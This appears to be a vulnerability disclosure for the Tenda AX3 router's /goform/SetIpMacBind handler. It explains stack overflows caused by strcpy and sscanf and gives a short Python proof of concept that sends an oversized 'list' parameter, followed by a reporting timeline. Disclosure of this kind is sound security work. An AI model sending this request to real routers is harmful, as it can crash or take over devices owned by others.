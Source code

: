 ## Tenda Router AX3 Vulnerability

There is a vulnerability lies in page /goform/SetIpMacBind,which influences the lastest version of Tenda Router AX3([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html)).

## Description

Vulnerable function fromSetIpMacBind

![image-20220117231339966](1.png)

The variable v4 is directly obtained directly from the http request parameter list.

v4 will be copied to the stack variable s by the strcpy function, resulting in stack overflow.

The stack variable s will be formatted and input into the three stack variables of v20, v16, and v17 through the scanf function, resulting in stack overflow.

![image-20220117231748141](2.png)

Combining the above two vulnerabilities,  attacker can perform remote code execution with crafted overflow data.

## POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetIpMacBind"
bindnum = "3"
var_list = "b" * 0x1000
r = requests.post(url, data={'bindnum': bindnum,'list':var_list})
print(r.content)
```

## Timeline

- 2022-1-14 report to CNVD
- 2022-1-17 report to CVE
